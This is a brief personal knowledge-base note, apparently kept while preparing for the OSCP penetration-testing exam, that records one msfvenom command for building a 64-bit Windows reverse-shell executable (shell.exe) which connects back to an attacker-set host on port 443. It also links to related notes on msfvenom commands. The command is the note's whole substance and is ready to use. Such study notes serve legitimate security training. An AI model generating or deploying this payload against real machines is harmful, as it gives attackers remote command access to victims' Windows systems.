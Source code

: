 # MSFVENOM Windows Binary (.exe) executable 64 Bit (x64) Reverse Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

` zet/20221003150769/README.md `

# Related

- [20221014185901](/zet/20221014185901/README.md) kb file named kb/hacking/commands/msfvenom-commands.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003150771](/zet/20221003150771/README.md) MSFVENOM Windows Binary (.exe) executable 64 Bit (x64)
- ~/kb/hacking/commands/msfvenom-commands.md
- [20221003150777](/zet/20221003150777/README.md) MSFVENOM

Tags:

    #command #hacking #msfvenom 
